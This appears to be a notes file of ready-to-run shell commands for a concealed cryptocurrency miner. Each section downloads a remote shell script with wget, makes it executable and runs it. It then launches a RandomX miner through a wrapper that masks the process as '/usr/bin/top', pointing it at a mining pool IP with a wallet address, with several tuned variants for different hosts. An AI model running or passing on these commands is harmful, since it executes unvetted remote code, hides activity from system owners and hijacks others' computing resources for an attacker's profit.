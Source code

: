 ##action one 

#deep

wget https://raw.githubusercontent.com/hudahadoh/hime/main/rest.sh && chmod +x rest.sh && ./rest.sh && cd /usr/bin

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xd7 --pass x -k -t 3--randomx-wrmsr -1 	--randomx-no-rdmsr --randomx-no-numa 

#datalr

wget https://raw.githubusercontent.com/hudahadoh/hime/main/dl.sh && chmod +x dl.sh && ./dl.sh && cd /usr/bin

##rand optimized deep
example : 

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xgt1 --pass x -k -t 6 --randomx-no-numa --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 --no-huge-pages


./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xgt1 --pass x -k -t 3 --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 

./bhmax --OPENCL -o 158.69.251.105:4052 -u SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xgt1 -k --tls --rig-id GC-em

export PATH=/usr/local/cuda/bin${PATH:+:${PATH}}
export LD_LIBRARY_PATH=/usr/local/cuda/lib64${LD_LIBRARY_PATH:+:${LD_LIBRARY_PATH}}


##rand optimized datalr
example : 

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xhdl --pass x -k -t 2 --randomx-no-numa --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 --no-huge-pages


###rand optimized colb

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xhif --pass x -k -t 90 --randomx-no-numa --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 --no-huge-pages

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax

### udahags

./bhmax --url 0.0.0.0:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xit --pass x -k -t 3 --randomx-no-numa --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 --no-huge-pages
